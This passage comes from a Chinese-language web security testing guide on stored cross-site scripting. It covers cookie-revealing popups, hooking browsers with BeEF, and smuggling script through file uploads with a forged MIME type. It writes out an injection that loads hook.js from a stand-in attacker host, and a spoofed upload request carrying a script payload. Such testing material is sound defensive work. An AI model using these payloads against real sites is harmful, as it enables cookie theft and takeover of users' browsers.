 ```

上面的注入将导致一个包含cookie值的弹出窗口。要确保输入是通过应用程序提交的。如果客户端设置了安全控制，则可能会禁用JavaScript或使用Web代理修改HTTP请求。还要注意，分别使用HTTP GET和POST请求进行测试。

##### 使用BeEF进行存储XSS攻击

通过高级Javascript渗透框架BeEF和XSS代理可以进行存储型XSS攻击。

典型的BeEF渗透场景包括：
- 用户准备浏览具有XSS漏洞的网页
- 利用Web应用程序中的XSS 漏洞来注入Javascript钩子。即诱骗用户在其浏览器中执行含有类似```<script src=http://attackersite/hook.js></script>```的语句。该hook.js负责获取当前浏览器信息，并与攻击者BeEF通信
- 通过BeEF控制台获取信息或利用漏洞控制用户浏览器

示例：在index2.php中的BeEF注入：```aaa@aa.com”><script src=http://attackersite/hook.js></script>```

当用户加载页面index2.php时，脚本hook.js由浏览器执行，然后可以访问cookie，用户屏幕截图、用户剪贴板，并发起复杂的XSS攻击。

##### 上传文件
如果Web应用程序允许文件上传，则要检查是否可以上传HTML内容。例如，如果允许HTML或TXT文件，则可以将XSS载荷注入上载的文件中。渗透测试器还应该验证文件上传是否允许设置任意MIME类型。

考虑以下用于文件上传的HTTP POST请求：
```
POST /fileupload.aspx HTTP/1.1
[…]

Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain

test
```

此设计缺陷可以在浏览器MIME错误处理攻击中加以利用。例如，看起来无害的文件（例如JPG和GIF）可以包含XSS有效负载，该有效负载在由浏览器加载时执行。当可以将图像的MIME类型（例如image / gif）设置为text / html时，这是可能的。在这种情况下，客户端浏览器会将文件视为HTML。

考虑如下的伪造的HTTP POST请求：
```
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
Content-Type: text/html

<script>alert(document.cookie)</script>
```

注意，Internet Explorer不能以与Mozilla Firefox或其他浏览器相同的方式处理MIME类型。例如，Internet Explorer将含有HTML的TXT处理为HTML。有关MIME处理的更多信息，请参阅本章底部的白皮书部分。

#### 灰盒测试

灰盒测试与黑盒测试类似。渗透测试人员可以通过与开发人员沟通了解用户输入、输入验证控制、数据存储等更多信息。

推荐测试人员检查用户输入如何被web应用所处理，以及它们被如何存储。推荐下列步骤：
- 使用前端应用，使用特殊字符或无效字符进行输入；
- 分析应用响应
- 识别输入验证控制以及效果
- 访问后端系统并检查输入是否被存储，以及如何存储
- 分析源代码，理解如何处理要存储的输入

如果源代码可以查看，所有在输入表单中使用的变量都需要被分析。特别是，诸如PHP，ASP和JSP之类的编程语言会使用预定义的变量/函数来存储来自HTTP GET和POST请求的输入。

下表总结了分析源代码时要查看的一些特殊变量和函数：

|PHP|	ASP	|JSP|
|-|-|-|
```